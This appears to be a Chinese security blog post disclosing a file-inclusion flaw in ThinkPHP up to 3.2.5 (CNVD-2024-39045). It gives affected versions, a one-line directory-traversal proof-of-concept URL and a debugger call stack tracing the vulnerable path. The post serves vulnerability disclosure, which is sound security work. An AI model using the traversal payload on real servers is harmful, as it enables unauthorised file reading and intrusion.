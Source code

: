 #  Thinkphp3文件包含(CNVD-2024-39045)   
 摸鱼Sec   2024-11-12 21:37  
  
# 声明：请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。  
#   
# 一.基础信息    
<table><tbody><tr><td width="558" valign="top" style="word-break: break-all;"><p style="text-indent: 0em;line-height: normal;"><span style=" color: rgb(217, 33, 66); ; " data-darkreader-inline-color=""><strong><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;">一个月前发了一个tp5的鸡肋漏洞,限制必须只能windows系统，这里的tp3就不限制系统，但是还是存在一定的鸡肋，具体看下面文章吧，在7月份写文章的时候那天晚上喝酒了,可能会有错别字或者不通顺的地方，哈哈也是文化水平有限，过一两个月我会发禅道的前台rce，本想着不公开的但是在朋友那块得知貌似hw的时候见过眼熟这里我也不知真假，最近也一直在学车考驾照真是难死我了，希望在年前能拿到驾照。</span></strong></span></p><p style="margin-top: 15.6pt;margin-bottom: 2.5pt;text-align: left;margin-left: 0pt;text-indent: 0em;line-height: normal;"><span style=" color: rgb(217, 33, 66); ; " data-darkreader-inline-color=""><strong><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;">time 7.15</span></strong></span></p><p style="margin-top: 15.6pt;margin-bottom: 2.5pt;text-align: left;margin-left: 0pt;text-indent: 0em;line-height: normal;"><span style=" color: rgb(217, 33, 66); ; " data-darkreader-inline-color=""><strong><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;">测试版本Version: 3.2.5</span></strong></span></p><p style="margin-top: 15.6pt;margin-bottom: 2.5pt;text-align: left;margin-left: 0pt;text-indent: 0em;line-height: normal;"><span style=" color: rgb(217, 33, 66); ; " data-darkreader-inline-color=""><strong><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;">php: 7.3.4</span></strong></span></p><p style="margin-top: 15.6pt;margin-bottom: 2.5pt;text-align: left;margin-left: 0pt;text-indent: 0em;line-height: normal;"><span style=" color: rgb(217, 33, 66); ; " data-darkreader-inline-color=""><strong><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;">影响范围：&lt;= 3.2.5</span></strong></span></p><p style="margin-top: 15.6pt;margin-bottom: 2.5pt;text-align: left;margin-left: 0pt;text-indent: 0em;line-height: normal;"><span style=" color: rgb(217, 33, 66); ; " data-darkreader-inline-color=""><strong><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;">漏洞利用poc: index.php?m=Home&amp;c=index&amp;a=../../../../../文件名</span></strong></span></p><p style="text-indent: 0em;line-height: normal;"><span style=" color: rgb(217, 33, 66); ; " data-darkreader-inline-color=""><strong><span style=" color: rgb(217, 33, 66);font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal; ; " data-darkreader-inline-color="">调用堆栈：</span></strong></span></p></td></tr></tbody></table>```
File.class.php:88, Think\Storage\Driver\File->load()            
Storage.class.php:41, call_user_func_array:{D:\phpStudy\WWW\thinkphp-3.2.5\ThinkPHP\Library\Think\Storage.class.php:41}()            
Storage.class.php:41, Think\Storage::__callStatic()            
Template.class.php:91, Think\Storage::load()            
Template.class.php:91, Think\Template->fetch()            
ParseTemplateBehavior.class.php:38, Behavior\ParseTemplateBehavior->run()            
Hook.class.php:131, Think\Hook::exec()            
Hook.class.php:99, Think\Hook::listen()            
View.class.php:155, Think\View->fetch()            
View.class.php:77, Think\View->display()            
Controller.class.php:62, Home\Controller\IndexController->display()            
Controller.class.php:185, Home\Controller\IndexController->__call()            
App.class.php:118, ReflectionMethod->invokeArgs()            
App.class.php:118, Think\App::exec()            
App.class.php:214, Think\App::run()            
Think.class.php:139, Think\Think::start()            
ThinkPHP.php:100, require()            
index.php:26, {main}()
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yahibu90Jz3TG5gtUApeNm1ZdS1r2ibo3ZKs04Lq4SaAaP9PRDKOlrWoYiaC9PhSKdlBvHGWnRpcLESg/640?wx_fmt=png "")  
  
```